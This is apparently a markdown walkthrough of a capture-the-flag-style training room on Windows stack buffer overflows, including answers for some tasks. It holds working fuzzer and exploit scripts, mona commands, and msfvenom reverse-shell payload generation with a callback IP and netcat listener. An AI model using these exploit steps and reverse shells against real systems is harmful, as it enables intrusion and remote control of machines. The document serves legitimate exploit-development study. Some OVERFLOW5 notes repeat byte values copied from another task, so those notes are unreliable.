




# [Buffer Overflow Prep](https://tryhackme.com/r/room/bufferoverflowprep)


## Task 1 - Deploy VM

This room uses a 32-bit Windows 7 VM with Immunity Debugger and Putty preinstalled. Windows Firewall and Defender have both been disabled to make exploit writing easier.

You can log onto the machine using RDP with the following credentials: admin/password

I suggest using the xfreerdp command: `xfreerdp /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea`

If Windows prompts you to choose a location for your network, choose the "Home" option.

On your Desktop there should be a folder called "vulnerable-apps". Inside this folder are a number of binaries which are vulnerable to simple stack based buffer overflows (the type taught on the PWK/OSCP course):

* The SLMail installer.
* The brainpan binary.
* The dostackbufferoverflowgood binary.
* The vulnserver binary.
* A custom written "oscp" binary which contains 10 buffer overflows, each with a different EIP offset and set of badchars.

I have also written a handy guide to exploiting buffer overflows with the help of mona: https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst

Please note that this room does not teach buffer overflows from scratch. It is intended to help OSCP students and also bring to their attention some features of mona which will save time in the OSCP exam.

Thanks go to [@Mojodojo_101](https://twitter.com/Mojodojo_101) for helping create the custom oscp.exe binary for this room!

### Answer the questions below

* Deploy the VM and login using RDP.

## Task 2 - oscp.exe - OVERFLOW1

Right-click the Immunity Debugger icon on the Desktop and choose "Run as administrator".

When Immunity loads, click the open file icon, or choose File -> Open. Navigate to the vulnerable-apps folder on the admin user's desktop, and then the "oscp" folder. Select the "oscp" (oscp.exe) binary and click "Open".

The binary will open in a "paused" state, so click the red play icon or choose Debug -> Run. In a terminal window, the oscp.exe binary should be running, and tells us that it is listening on port 1337.

On your Kali box, connect to port 1337 on MACHINE_IP using netcat:

`nc MACHINE_IP 1337`

Type "HELP" and press Enter. Note that there are 10 different OVERFLOW commands numbered 1 - 10. Type "OVERFLOW1 test" and press enter. The response should be "OVERFLOW1 COMPLETE". Terminate the connection.

### Mona Configuration

The mona script has been preinstalled, however to make it easier to work with, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:

`!mona config -set workingfolder c:\mona\%p`

### Fuzzing

Create a file on your Kali box called fuzzer.py with the following contents:

```
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
  ```

Run the fuzzer.py script using python: `python3 fuzzer.py`

The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.

### Crash Replication & Controlling EIP

Create another file on your Kali box called exploit.py with the following contents:

```
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the `-l` value to this):

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`

If you are using the AttackBox, use the following path to `pattern_create.rb` instead (also ensure to change the `-l` value):

`/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 600`

Copy the output and place it into the payload variable of the exploit.py script.

On Windows, in Immunity Debugger, re-open the oscp.exe again using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run the exploit.py (which we will run multiple times with incremental modifications).

On Kali, run the modified exploit.py script: `python3 exploit.py`

The script should crash the oscp.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:

`!mona findmsp -distance 600`

Mona should display a log window with the output of the command. If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view).

In this output you should see a line which states:

`EIP contains normal pattern : ... (offset XXXX)`

Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

### Finding Bad Characters

Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).

`!mona bytearray -b "\x00"`

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Update your exploit.py script and set the payload variable to the string of bad chars the script generates.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Make a note of the address to which the ESP register points and use it in the following mona command:

`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`

A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.

Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

The first badchar in the list should be the null byte (\x00) since we already removed it from the file. Make a note of any others. Generate a new bytearray in mona, specifying these new badchars along with \x00. Then update the payload variable in your exploit.py script and remove the new badchars as well.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

### Finding a Jump Point

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):

!mona jmp -r esp -cpb "\x00"

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

### Generate Payload

Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):

msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c

Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:

```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```

### Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

`padding = "\x90" * 16`

### Exploit!

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn't change it).

Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!

### Answer the questions below

* What is the EIP offset for OVERFLOW1?

  `1978`

  * Load `oscp.exe`
  
    

    

  * Run `oscp.exe`
  
    

  * Setup mona configuration
  
    `!mona config -set workingfolder c:\mona\%p`

    

  * Run the `fuzzer.py` script 
  
    `python3 fuzzer.py`

    

    Our program is crashed in 2000 bytes see Access violation when executing **[41414141]**

  * Now generate a pattern, based on the length of bytes to crash the server
  
    ```
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
    ```

    

  * Modify payload variable of the `exploit.py` script, restart `oscp.exe` and run `exploit.py`
  
    

    

    

  * In Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command
  
    `!mona findmsp -distance 2000`

    

    Mona should display a log window with the output of the command. Note the EIP offset (1978) and any other registers that point to the pattern

* In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW1?

  `\x00\x07\x2e\xa0`

  * Update `exploit.py` script, set the offset variable to EIP offset value, set the payload variable to an empty string and set the retn variable to "BBBB"
  
    

  * Restart `oscp.exe` in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. **42424242**)
  
    

    

  * Restart `oscp.exe` in Immunity and generate a bytearray using mona, and exclude the null byte (`\x00`) by default
  
    `!mona bytearray -b "\x00"`

    

    The output location should be in "C:\mona\oscp\bytearray.txt"

    

  * Now we need to generate a string of bad chars from `\x01` to `\xff` that is identical to the bytearray. Use the python script (`bytegen.py`)
  
    ```
    for x in range(1, 256):
      print("\\x" + "{:02x}".format(x), end='')
    print()
    ```

    

  * Update `exploit.py` script and set the payload variable to the string of badchars the script generates
  
    

  * Run `exploit.py` and take note of the address to which the ESP register points
  
    

    

  * Run following mona command
  
    ```
    !mona compare -f C:\mona\oscp\bytearray.bin -a 019EFA30
    ```

    

    So we found a list of possible bad chars **07 08 2e 2f a0 a1**

  * Restart oscp.exe in immunity, created a new bytearray and removed `\x00\x07`
  
    ```
    !mona bytearray -b "\x00\x07"
    ```

  * Edit `exploit.py` remove `\x07` from payload variable and run `exploit.py`
  
    

    

  * Check ESP value and run compare mona again
  
    ```
    !mona compare -f C:\mona\oscp\bytearray.bin -a 017BFA30
    ```

    

  * Restart `oscp.exe` in immunity, created a new bytearray and removed `\x00\x07\x2e`
  
    ```
    !mona bytearray -b "\x00\x07\x2e"
    ```

  * Edit `exploit.py` remove `\x2e` from payload variable and run `exploit.py`
  
    

    
    
  * Check ESP value and run compare mona again
  
    ```
    !mona compare -f C:\mona\oscp\bytearray.bin -a 0195FA30
    ```

    

  * Restart `oscp.exe` in immunity, created a new bytearray and removed `\x00\x07\x2e\xa0`
  
    ```
    !mona bytearray -b "\x00\x07\x2e\xa0"
    ```

  * Edit `exploit.py` remove `\xa0` from payload variable and run `exploit.py`
  
    

    

  * Check ESP value and run compare mona again
  
    ```
    !mona compare -f C:\mona\oscp\bytearray.bin -a 0187FA30
    ```

    

    So finally we got our BADCHARS **00 07 2e a0**

  * Let’s find the jump point using the mona command again
  
    ```
    !mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
    ```

    

    Note the address **625011AF** => **62 50 11 AF** => **\xaf\x11\x50\x62** written backwards since the system is little endian

  * Update your `exploit.py` script, setting the retn variable to the address `\xaf\x11\x50\x62`
  
    

  * Generate a reverse shell payload using msfvenom, making sure to exclude the same bad chars that were found previously
  
    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=10.17.127.223 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
    ```

    

  * Update `exploit.py` script and set the payload variable to the string of generated C code, also add variable padding to  `"\x90" * 16`
   
    

  * Start up a listener with netcat
  
    

  * Restart oscp.exe in immunity, run `exploit.py` again and we get the shell

    

### Conclution
  
Stack-based BOF exploitation process in a nutshell:

* Find the bytes that crashed the program/binary.
* Find the EIP offset.
* Look for (and remove if exists) the bad chars.
* Find the jump point.
* Exploit!

## Task 3 - oscp.exe - OVERFLOW2

Repeat the steps outlined in Task 2 but for the OVERFLOW2 command.

### Answer the questions below

* What is the EIP offset for OVERFLOW2?

  `634`

  * Run the fuzzer.py script
  
    

    

    Our program is crashed in 700 bytes see Access violation when executing **[41414141]**

  * Now generate a pattern, based on the length of bytes to crash the server
  
    ```
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1100
    ```

    

  * Modify payload variable of the `exploit.py` script, restart `oscp.exe` and run `exploit.py`
    
    

    

    

  * In Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command
  
    `!mona findmsp -distance 1100`

     

* In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW2?

  `\x00\x23\x3c\x83\xba`

  * Update `exploit.py` script, set the offset variable to EIP offset value, set the payload variable to an empty string and set the retn variable to "BBBB"
  
    

  * Restart `oscp.exe` in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. **42424242**)
  
    

    

  * Restart `oscp.exe` in Immunity and generate a bytearray using mona, and exclude the null byte (`\x00`) by default
  
    `!mona bytearray -b "\x00"`

    

  * Now we need to generate a string of bad chars from `\x01` to `\xff` that is identical to the bytearray. Use the python script (`bytegen.py`)
  
    ```
    for x in range(1, 256):
      print("\\x" + "{:02x}".format(x), end='')
    print()
    ```

    

  * Update `exploit.py` script and set the payload variable to the string of badchars the script generates
  
    

  * Run `exploit.py` and take note of the address to which the ESP register points
  
    

    

  * Run following mona command
  
    ```
    !mona compare -f C:\mona\oscp\bytearray.bin -a 0188FA30
    ```

    

    So we found a list of possible bad chars **00 23 24 3c 3d 83 84 ba bb**

  * Restart oscp.exe in immunity, created a new bytearray and removed `\x00\x23`
  
    ```
    !mona bytearray -b "\x00\x23"
    ```

  * Edit `exploit.py` remove `\x23` from payload variable and run `exploit.py`
  
    

    

  * Check ESP value and run compare mona again
  
    ```
    !mona compare -f C:\mona\oscp\bytearray.bin -a 01B7FA30
    ```

    

  * Restart `oscp.exe` in immunity, created a new bytearray and removed `\x00\x23\x3c`
  
    ```
    !mona bytearray -b "\x00\x23\x3c"
    ```

  * Edit `exploit.py` remove `\x3c` from payload variable and run `exploit.py`
  
    

    
    
  * Check ESP value and run compare mona again
  
    ```
    !mona compare -f C:\mona\oscp\bytearray.bin -a 0183FA30
    ```

    

  * Restart `oscp.exe` in immunity, created a new bytearray and removed `\x00\x23\x3c\x83`
  
    ```
    !mona bytearray -b "\x00\x23\x3c\x83"
    ```

  * Edit `exploit.py` remove `\x83` from payload variable and run `exploit.py`
  
    

    

  * Check ESP value and run compare mona again
  
    ```
    !mona compare -f C:\mona\oscp\bytearray.bin -a 01A3FA30
    ```

    

  * Restart `oscp.exe` in immunity, created a new bytearray and removed `\x00\x23\x3c\x83\xba`
  
    ```
    !mona bytearray -b "\x00\x23\x3c\x83\xba"
    ```

  * Edit `exploit.py` remove `\xba` from payload variable and run `exploit.py`
  
    

    

  * Check ESP value and run compare mona again
  
    ```
    !mona compare -f C:\mona\oscp\bytearray.bin -a 018CFA30
    ```

    

    So finally we got our BADCHARS **00 23 3c 83 ba**

## Task 4 - oscp.exe - OVERFLOW3

Repeat the steps outlined in Task 2 but for the OVERFLOW3 command.

### Answer the questions below

* What is the EIP offset for OVERFLOW3?

* In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW3?

## Task 5 - oscp.exe - OVERFLOW4

Repeat the steps outlined in Task 2 but for the OVERFLOW4 command.

### Answer the questions below

* What is the EIP offset for OVERFLOW4?

* In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW4?

## Task 6 - oscp.exe - OVERFLOW5

Repeat the steps outlined in Task 2 but for the OVERFLOW5 command.

### Answer the questions below

* What is the EIP offset for OVERFLOW5?

`314`

  * Run the fuzzer.py script
  
    

    

    Our program is crashed in 400 bytes see Access violation when executing **[41414141]**

  * Now generate a pattern, based on the length of bytes to crash the server
  
    ```
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 700
    ```

    

  * Modify payload variable of the `exploit.py` script, restart `oscp.exe` and run `exploit.py`
    
    

    

    

  * In Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command
  
    `!mona findmsp -distance 700`

     

* In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW5?

  `\x00\x16\x2f\xf4\xfd`

  * Update `exploit.py` script, set the offset variable to EIP offset value, set the payload variable to an empty string and set the retn variable to "BBBB"
  
    

  * Restart `oscp.exe` in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. **42424242**)
  
    

    

  * Restart `oscp.exe` in Immunity and generate a bytearray using mona, and exclude the null byte (`\x00`) by default
  
    `!mona bytearray -b "\x00"`

    

  * Now we need to generate a string of bad chars from `\x01` to `\xff` that is identical to the bytearray. Use the python script (`bytegen.py`)
  
    ```
    for x in range(1, 256):
      print("\\x" + "{:02x}".format(x), end='')
    print()
    ```

    

  * Update `exploit.py` script and set the payload variable to the string of badchars the script generates
  
    

  * Run `exploit.py` and take note of the address to which the ESP register points
  
    

    

  * Run following mona command
  
    ```
    !mona compare -f C:\mona\oscp\bytearray.bin -a 019DFA30
    ```

    

    So we found a list of possible bad chars **00 16 17 2f 30 f4 f5 fd**

  * Restart oscp.exe in immunity, created a new bytearray and removed `\x00\x16`
  
    ```
    !mona bytearray -b "\x00\x16"
    ```

  * Edit `exploit.py` remove `\x23` from payload variable and run `exploit.py`
  
    

    

  * Check ESP value and run compare mona again
  
    ```
    !mona compare -f C:\mona\oscp\bytearray.bin -a 01ADFA30
    ```

    

  * Restart `oscp.exe` in immunity, created a new bytearray and removed `\x00\x16\x2f`
  
    ```
    !mona bytearray -b "\x00\x16\x2f"
    ```

  * Edit `exploit.py` remove `\x3c` from payload variable and run `exploit.py`
  
    

    
    
  * Check ESP value and run compare mona again
  
    ```
    !mona compare -f C:\mona\oscp\bytearray.bin -a 019FFA30
    ```

    

  * Restart `oscp.exe` in immunity, created a new bytearray and removed `\x00\x16\x2f\xf4`
  
    ```
    !mona bytearray -b "\x00\x16\x2f\xf4"
    ```

  * Edit `exploit.py` remove `\x83` from payload variable and run `exploit.py`
  
    

    

  * Check ESP value and run compare mona again
  
    ```
    !mona compare -f C:\mona\oscp\bytearray.bin -a 0180FA30
    ```

    

    So finally we got our BADCHARS **00 16 2f f4 fd**

## Task 7 - oscp.exe - OVERFLOW6

Repeat the steps outlined in Task 2 but for the OVERFLOW6 command.

### Answer the questions below

* What is the EIP offset for OVERFLOW6?

* In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW6?

## Task 8 - oscp.exe - OVERFLOW7

Repeat the steps outlined in Task 2 but for the OVERFLOW7 command.

### Answer the questions below

* What is the EIP offset for OVERFLOW7?

* In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW7?

## Task 9 - oscp.exe - OVERFLOW8

Repeat the steps outlined in Task 2 but for the OVERFLOW8 command.

### Answer the questions below

* What is the EIP offset for OVERFLOW8?

* In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW8?

## Task 10 - oscp.exe - OVERFLOW9

Repeat the steps outlined in Task 2 but for the OVERFLOW9 command.

### Answer the questions below

* What is the EIP offset for OVERFLOW9?

* In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW9?

## Task 11 - oscp.exe - OVERFLOW11

Repeat the steps outlined in Task 2 but for the OVERFLOW10 command.

### Answer the questions below

* What is the EIP offset for OVERFLOW10?

* In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW10?